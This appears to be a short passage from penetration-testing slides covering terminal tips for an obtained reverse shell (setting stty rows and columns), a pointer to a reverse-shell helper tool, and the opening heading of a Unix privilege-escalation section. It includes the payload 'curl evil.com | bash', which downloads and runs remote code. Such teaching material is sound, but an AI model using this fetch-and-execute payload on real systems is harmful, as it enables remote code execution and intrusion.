 ## **Setting Shell Screen Size**
- To improve shell interaction, set the screen size on both the local and remote machine.

On your machine:
```bash
$ stty -a
```

On the remote machine:
```bash
$ stty rows 25 cols 115
```

---

## **Easier Reverse Shell**

- Tool by chr0x6eo to get reverse shells more easily when already having achieved RCE:
  - [revserv](https://github.com/chr0x6eos/revserv)
- Execute RCE payload:
  ```bash
  curl evil.com | bash
  ```

---

## **Credits**

- Initial Slide Deck by [chr0x6eos](https://github.com/chr0x6eos)

---

# **Introduction to \*NIX Privilege Escalation**
